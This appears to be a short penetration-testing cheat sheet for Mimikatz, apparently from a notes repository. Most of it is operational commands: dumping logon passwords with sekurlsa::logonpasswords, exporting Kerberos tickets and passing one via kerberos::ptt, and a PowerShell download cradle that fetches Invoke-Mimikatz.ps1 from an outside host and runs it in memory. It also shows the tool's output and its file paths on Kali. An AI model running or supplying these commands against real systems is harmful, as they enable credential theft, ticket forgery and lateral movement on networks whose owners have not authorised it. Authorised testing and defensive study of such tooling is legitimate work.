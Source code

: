 # Mimikatz
## Useful commands
List all available provider credentials
```
sekurlsa::logonpasswords
```

```
sekurlsa::tickets export
```
NOTE: Below PTT using an exported ticket
```
kerberos::ptt [0;2957a]-2-0-40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi
```

## PowerShell Download Cradle
```
[security.local]: PS C:\> iex (New-Object Net.WebClient).DownloadString("http://10.0.5.101/Invoke-Mimikatz.ps1")
[security.local]: PS C:\> . .\Invoke-Mimikatz.ps1
[security.local]: PS C:\> Invoke-Mimikatz
Hostname: SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) #
```
## Mimikatz locations on Kali
### Executables
```
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```
### PowerShell
```
/usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1
/usr/share/powershell-empire/empire/test/data/module_source/credentials/Invoke-Mimikatz.ps1
/usr/share/windows-resources/powersploit/Exfiltration/Invoke-Mimikatz.ps1
```
## References
The Hacker Tools - Recipes: Mimikatz<br>
https://tools.thehacker.recipes/mimikatz
